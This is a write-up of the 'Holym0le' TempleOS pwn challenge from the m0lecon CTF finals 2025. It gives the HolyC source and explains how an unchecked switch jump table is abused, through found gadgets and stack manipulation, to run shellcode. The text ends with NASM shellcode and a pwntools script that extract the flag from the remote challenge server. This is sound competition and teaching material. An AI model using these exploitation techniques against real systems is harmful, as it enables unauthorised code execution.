

Holym0le PWN (2 solves) Holym0le is a templeOS/tinkerOS pwn challenge from m0lecon CTF finals 2025. It was the only out of the 4 pwn challenges I ended up solving. It's a great challenge so I wrote this writeup. Along the way we'll learn some templeOS internals that will certainly come in handy for the new templeOS pwn meta ;)
By P.Howe We're provided a run.py and a qcow2 disk image. The run.py is just a wrapper around qemu-system. Connecting to the challenge we're dropped into a program that let's us interact with the bible. The challenge source can be found by extracting the filesystem from the qcow2 disk image. It's stored at `Home/Challenge.HC.Z`. `.Z` files are templeOS compressed. I used TOSZ to decompress and obtain the HolyC source:
Setup $BK,1$/* Oh, hello there! */$BK,0$ #define COM1 0x3f8 U8 *menu = "What do you want to do?\n" "\t 1) Read a book from the Bible\n" "\t 2) Look up a Bible book and verse by line\n" "\t 3) Choose a random Bible verse for me\n" "\t 4) Let God generate a passphrase for me\n" "\t666) Commit a sin\n" "> "; U8 *goodbye = "For while we were still weak, " "at the right time Christ died " "for the ungodly.\n"; U0 Die(U8 *err=NULL) { if (err) "$RED$%s\n$FG$", err; Sleep(3000); OutU16(0x604, 0x2000); while (1) Yield(); } Bool SerialDataReady(I64 port) { return (InU8(port + 5) & 1) != 0; } Bool SerialTransEmpty(I64 port) { return (InU8(port + 5) & 0x20) != 0; } U8 RecvChar() { while (!SerialDataReady(COM1)) Yield(); return InU8(COM1); } U0 SendChar(U8 c) { while (!SerialTransEmpty(COM1)) Yield(); OutU8(COM1, c); } U0 SendAll(U8 *buf, I64 sz) { while (sz--) SendChar(*buf++); } U0 SendString(U8 *s) { SendAll(s, StrLen(s)); } U0 RecvLine(U8 **out, I64 sz) { U8 *p; if (sz <= 0) { *out = NULL; return; } p = *out = MAlloc(sz); if (p == NULL) return; while (--sz) { *p = RecvChar(); if (*p == '\n') break; p++; } *p = '\0'; } I64 RecvI64() { U8 *num; I64 res; RecvLine(&num, 32); res = Str2I64(num); Free(num); return res; } U0 CmdReadBook(U8 *book_name, I64 lines) { U8 *content, *line, *res; I64 sz, i; CDoc *doc; doc = DocNew(); BibleVerse(doc, book_name, lines); content = DocSave(doc, &sz); DocDel(doc); if (!sz) { U8 *err = MStrPrint("No such book as \"%s\"!\n", book_name); SendString(err); Free(err); goto no_book; } res = StrNew("---\n"); line = content; for (i = 1; i <= lines; i++) { U8 *nl = StrFirstOcc(line, "\n"); if (!nl) break; *nl = '\0'; U8 *tmp = res; res = MStrPrint("%s%2d| %s\n", res, i, line); Free(tmp); line = nl + 1; } SendString(res); Free(res); no_book: Free(content); } U0 CmdLookupVerse(I64 lineno) { U8 *verse = BibleLine2Verse(lineno); if (!*verse) { SendString("This line does not correspond to any known verse.\n"); return; } SendString(verse); SendString("\n"); Free(verse); } U0 CmdRandVerse() { U8 *verse = NULL; while (!verse) verse = BibleLine2Verse(GetTSC() % ST_BIBLE_LINES + 1); SendString(verse); SendString("\n"); Free(verse); } U0 CmdGodPassphrase(I64 words) { SendString("Your passphrase is: "); while (words--) { GodBitsIns(GOD_GOOD_BITS, GetTSC()); SendString(GodWordStr()); if (words) SendString("-"); } SendString("\n"); } U0 DoCommand() { U8 *book; I64 n; SendString(menu); n = RecvI64(); if (n >= '[XX]') { "$RED$--- [DEBUG] ---\n$FG$"; "$RED$Task: %s (%s)\n$FG$", Fs->task_name, Fs->task_title; if (n >= '[XX]' + 1) "$RED$Parent: %s (%s)\n$FG$", Fs->parent_task->task_name, Fs->parent_task->task_title; if (n >= '[XX]' + 2) "$RED$Dir: %c://%s\n$FG$", Drv2Let(), Fs->cur_dir; if (n >= '[XX]' + 3) "$RED$Window: %d %d %d %d\n$FG$", Fs->win_left, Fs->win_right, Fs->win_top, Fs->win_bottom; return; } SendString("---\n"); switch [n] { case 1: SendString("Which book? "); RecvLine(&book, 150); SendString("How many lines? "); n = RecvI64(); if (n < 1) { SendString("Cannot really read less than 1 line!\n"); Free(book); break; } if (n > 50) { SendString("I'm afraid we don't have that much time!\n"); Free(book); break; } CmdReadBook(book, n); Free(book); break; case 2: SendString("Which line? "); n = RecvI64(); if (n < 297) { SendString("Line too small!\n"); break; } if (n > ST_BIBLE_LINES) { SendString("Line too big!\n"); break; } CmdLookupVerse(n); break; case 3: CmdRandVerse(); break; case 4: SendString("How many words? "); n = RecvI64(); if (n < 1) { SendString("That's not secure enough!\n"); break; } if (n > 8) { SendString("You're never going to remember that!\n"); break; } CmdGodPassphrase(n); break; case 666: SendString(goodbye); Die("Client committed a sin!"); break; default: SendString("No such command!\n"); break; } SendString("---\n"); } U0 Banner() { CDoc *doc; U8 *content; I64 size; doc = DocRead("~/Banner.TXT.Z"); content = DocSave(doc, &size); DocDel(doc); SendAll(content, size); Free(content); } U0 Challenge() { StrCpy(Fs->task_name, "HolyM0le!"); Fs->title_src = TTS_TASK_NAME; "$GREEN$HolyM0le!\n$FG$"; Banner(); while (1) { DoCommand(); } }None of the functionality is super relevant, thanks to my teammate @cyanpencil for pointing out the bug. There is no bounds check on the switch statement. Sending a bunch of random options will eventually crash the program. Looking at the disassembly relevant to the switch statement after sending some option:  `rsi` holds the `i64` option sent over serial. As can be seen a word (2 bytes) is fetched from `$rsi*2+0x3677bf0b` (0x3677bf0b is the base of the jump table). The short is added to `0x3677bd46` to determine the destination of the switch statement. There are no checks on the value of `rsi`. This bug allows jumping to any address in short range of `0x3677bd46`. The only requirement is finding a corresponding offset short stored in memory somewhere.
The Bug Before we keep going we need to talk about debugging this. All `.HC` files are JIT compiled. The addresses where the compiled functions end up is sortof random. They'll be at the same address most of the time, but the will of god is whimsy so sometimes the address changes. The most important question is of course where is the `DoCommand` function? The way I looked for this function was the following: 1. attach gdb to the qemu gdbserver `gdb -ex 'target remote localhost:1338` 2. look for the string "No such command" `search-pattern "No such command"` 3. set a watchpoint on all the found addresses `rwatch 0xXXXXXXX` 4. send command `5` to the binary, this will trigger `SendString("No such command")` and also trigger the watchpoint. 5. step out of the `SendString` function and voila you found `DoCommand` Fortunately `DoCommand` is usually at the same address, the following command breaks on the switch statement jump:
Debugging I did not use the builtin debugger, in retrospect probably would have been helpful since it has builtin functions to resolve the address of functions, but I had issues with the display/VNC. I was planning to write a gdb plugin to do the `Uf` command in gdb, let's see if I get around to it...b *0x3677bd35We now have a debug setup and have the bug. How do we actually get the flag from the remote? First off, the only usable code to jump to in short range of `0x3677bd46` (the address to which the jump offset is added) is the code of `DoCommand`, no other functions are JIT compiled nearby. In Temple OS all memory regions (code/data) are rwx. Ideally we could place some controlled data (shellcode) in memory somewhere and jump to that. Command 1 in the switch statement calls `RecvLine(&book, 150);` This function allocates a 150 sized chunk and reads data from serial (data we control). We can place shellcode here. Even though the chunk is freed, the data inside of the chunk is not cleared. Unfortunately the distance between the allocated chunk and `0x3677bd46` is out of `short` range. We need to find a gadget to help us jump to the shellcode. After triggering command 1, reading from book "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", a pointer to our chunk is stored at `rsp+0x10`. A gadget that could pop data from the stack and return would allow us to jump to the shellcode. Here is where I spent multiple hours looking for a gadget. In retrospect dumping the data from short range of the jump base to a file and using `Ropgadget` would have been the smart approach. The author's intended gadget was encoded in the `'[XX]'` string, giving a `pop rax, pop rax, pop rbp` gadget that allows stack pivoting. However I found another unintended gadget in the middle of the code handling the `'[XX]'` option:
Jumping To Shellcode This gadget is just after this line in the source code:0x3677bc5e: add rsp,0x10In the TempleOS calling conventions all arguments are pushed to the stack and it's the caller's responsibility to clean up the stack. The string formatting function takes two arguments, the format string and the number of arguments. We can see this by disassembling around the gadget:n = RecvI64(); if (n >= '[XX]') { "$RED$--- [DEBUG] ---\n$FG$"; // <= just after the call to string format`0x3677be80` points to the `"$RED$---- .."` string and `0x18556` points to the string format function. The add `rsp,0x10` resets the stack after the arguments have been pushed. You may be wondering why this gadget is useful and how this doesn't crash the program. But first observe the stack state when we hit the breakpoint at the jumptable switch after we've jumped to the add rsp gadget: Hallelujah!, a pointer to our controlled input is on top of the stack. We can now jump to a return instruction and return to our shellcode. So why does this not crash the program? Quite simple actually, the code path taken when jumping to the gadget doesn't access anything on the stack. It simply calls the print formatting function twice and returns from `DoCommand`.0x3677bc52: push 0x0 0x3677bc54: push 0x3677be80 0x3677bc59: call 0x18556 0x3677bc5e: add rsp,0x10Additionally, there is a `leave` at the end of the function restoring `rsp` back to a position where it points to the original return address. So why is our input on top of the stack after this gadget? Let's look at the program state when returning from `DoCommand` after having jumped to our gadget: There is a `pop rsi` instruction, moving the pointer to our controlled input into `rsi` before returning. `DoCommand` is called in an infinite loop and so the only thing happening after returning is a `jmp` instruction and another call to `DoCommand`. The function prologue of `DoCommand` makes space on the stack for the local variables and then pushes `rsi` to the stack!. (I'm not sure what `rsi` tracks, I'm assuming some bookkepping informatoin on the process state)."$RED$--- [DEBUG] ---\n$FG$"; "$RED$Task: %s (%s)\n$FG$", Fs->task_name, Fs->task_title; .. //no other function is called because n < '[XX]' return;In any case this `push rsi` causes the pointer to our controlled data to be pushed back on the stack. One last thing is to find offsets (2 bytes) that can be used to jump the above gadget (and to a return gadget). The first gadget is at offset -232 from `0x3677bd46`. So we're looking for bytes `(-232).to_bytes(2, "little", signed=True)= b'\x18\xff'`. With gef the following search yields plenty of results: `search-pattern 0xff18`. We pick an odd address close to the address where the offsets of the jumptable are stored (`0x3677bf0b`) and calculate the distance to said address (divided by 2). The value we come up with is: 9476513. Sending this number as an option will cause the program to jump to the `add rsp,0x10` gadget. We need to do the same dance for the jump to the `ret` instruction. The steps are the same as above and we come up with 991916. To recap: Send command 1, shellcode and some line to allocate the shellocde, send command 9476513 to put a pointer to the shellcode at the top of the stack and send command 991916 to return to the shellcode.0x3677bc2a: mov ebp,esp 0x3677bc2c: sub rsp,0x10 0x3677bc30: push rsiLast but not least we need to get the flag. The flag is stored at `/Home/Flag.TXT`. The `Banner()` function of the challenge looks promising for our purpose. It reads the file `~/Banner.TXT` and writes the contents to serial. If we could jump in the middle of the `Banner` function such that the argument to `DocRead` was `~/Flag.TXT` we'd be able to obtain the flag. Unfortunately our shellcode doesn't know where the `Banner` function is I found the address to be fairly random. So we'll implement the scanning we used to find the `DoCommand` function in the shellcode. I won't explain too much, the comments should be self explanatory:
Reading the Flag Compile this shellcode `nasm -f bin sc.s` and script up everything. The following script retrieves the flag from the remote:[BITS 64] mov rdx, 0x100 ; scan interval mov rsi, 0x0000000036400069 ; scan start (we found the least siginficant byte to always be 0x69) mov r8,0x72656e6e61422f7e ; "~/Banner" scan_loop: mov rax, [rsi] ; Load 8 bytes from mememory cmp rax, r8 ; Compare with first pattern je found_pattern ; Jump if found add rsi, rdx ; Move to next 0x100 interval jmp scan_loop ; Repeat until RCX is 0 found_pattern: shl rsi,8 ; build push address to banner string instruction or rsi,0x68 mov rcx, rsi ; we're scanning for that instruction mov rsi, 0x0000000036400034 ; scan start scan_loop_2: mov rax, [rsi] shl rax, 24 ; mask 3 most signficant bytes shr rax, 24 cmp rax, rcx je found_pattern_2 add rsi,rdx jmp scan_loop_2 found_pattern_2: add rsi,0x5 ; skip the push instruction, rsi points to the call to DocRead lea rdi, [rel flag] ; push pointer to flag path string on stack push rdi jmp rsi ; jump into Banner function flag db '~/Flag.TXT',0One small issue, for some reason TempleOS decides to spill huge amounts of it's memory after the jump into Banner that's why there is the loop to grep for the flag. Thanks to @mebeim for the awesome challenge. You can find the challenge source and the author's writeup here: Author's writeup. At the end of the competition the challenge was worth 381 points and helped our team secure rank 5 (instead of 7). Shoutout to the rest of my team for carrying and getting all the other points :).from pwn import * import os os.system("nasm -f bin sc.s") shellcode = open("sc","rb").read() #r = process("python3 run.py build/disk.qcow2 --gdb", shell=True) r = remote("holym0le.challs.m0lecon.it", 15184) r.recvuntil(b">") input("go?") r.sendline(b"1") r.sendlineafter(b"Which book?", shellcode) r.sendlineafter(b"How many lines?", b"5") r.recvuntil(b">") r.sendline(b"9476513") r.recvuntil(b">") r.sendline(b"991916") while(1): data = r.recvline() if b"ptm{" in data: print(data) exit(0)